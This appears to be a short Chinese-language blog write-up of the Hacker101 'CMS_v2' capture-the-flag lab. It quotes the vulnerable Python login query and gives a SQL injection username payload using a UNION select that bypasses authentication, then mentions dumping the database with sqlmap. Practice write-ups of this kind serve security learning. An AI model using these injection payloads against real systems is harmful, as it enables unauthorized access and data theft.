 ```yaml
---
layout: post
title:  "CMS_v2"
subtitle: "hacker101"
date:   2020-03-23 23：14
categories: [pentest]
---
```

# CMS_v2

[https://ctf.hacker101.com/ctf/launch/3](https://ctf.hacker101.com/ctf/launch/3)

* * *

## Flag 1

`if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:`

cur.execute:python执行数据库操作

数据库语句:

`SELECT password FROM admins WHERE username=\'%s\'`

> 查询password

字符处理

`request.form['username'].replace('%', '%%')`

> 用%%替代%处理username然后传入参数值

判断条件是

`cur.execute == 0`

username

`admin'and '1'='2' union select 0 from admins`

password

`0`

## Flag 2

get--> post

# Flag 3

flag1 是 password，但是username在哪里还没有找到

sqlmap直接把数据库dump出来，简单粗暴
